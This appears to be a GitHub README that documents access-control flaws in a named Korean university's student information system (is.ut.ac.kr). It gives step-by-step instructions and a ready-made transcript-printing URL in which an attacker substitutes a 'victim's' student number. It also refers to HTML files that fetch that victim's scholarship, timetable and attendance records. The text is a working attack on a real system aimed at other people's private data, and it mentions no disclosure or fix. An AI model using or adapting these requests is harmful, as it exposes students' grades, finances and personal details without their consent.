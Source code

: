 ## 한국교통대학교 종합정보시스템 (is.ut.ac.kr) Security vulnerabilities

### 학번 조회
* Input victim's name in Korean and birthday
* This page requires Adobe flash player
    * `https://is.ut.ac.kr/userSearch.jsp`

### 성적표 출력
* Request in Internet Explorer to install cxViewer plugin
* Query string: Change \<STUDENT-NUMBER\> to victim's student number
    * `https://is.ut.ac.kr/cxViewer/RdView.jsp?view_mode=rdopen_non_output();&param=%2Frp%20%20%5B2020%2D08%2D14%5D%20%5B<STUDENT-NUMBER>%5D%20%5B91215035%5D%20%5B<STUDENT-NUMBER>%5D%20%5B%5D%20%5B<STUDENT-NUMBER>%5D%20%5B00%5D%20%5B%25%5D%20%5B%25%5D%20%2Frl%20%5B%5D%20%2Frfn%20%5Bhttps%3A%2F%2Fis%2Eut%2Eac%2Ekr%2FDataServer%2Frdagent%2Ejsp%5D%20%2Frsn%20%5Bjdbc%2Fusop%5D&mrd=%2FGA%2FSC%2FSC02%2FMRD%2Fcsga%5F04063%2Emrd`

### 장학금 수혜 내역
* Refer to the `query_scholarship_benefits.html` file
* Change \<STUDENT-NUMBER\> to victim's student number
* Save and run this file with a browser

### 시간표 조회
* Refer to the `query_time_table.html` file
* Change \<STUDENT-NUMBER\> to victim's student number
* Change \<SEMESTER\> to semester you want to query
* Change \<YEAR\> to the year you want to query
* Save and run this file with a browser

### 전자출결조회
* Refer to the `query_electronic_attendance_inquiry.html` file
* Change \<STUDENT-NUMBER\> to victim's student number
* Change \<SEMESTER\> to semester you want to query
* Change \<YEAR\> to the year you want to query
* Save and run this file with a browser

---
### Report Designer Editor V5.0 (*.mrd file editor): http://ufdev.hmm21.com/Dist/index.html, [Download](http://ufdev.hmm21.com/Dist/download/ReportDesigner5.0u.zip)
### Last confirmed in 2020-08-31.
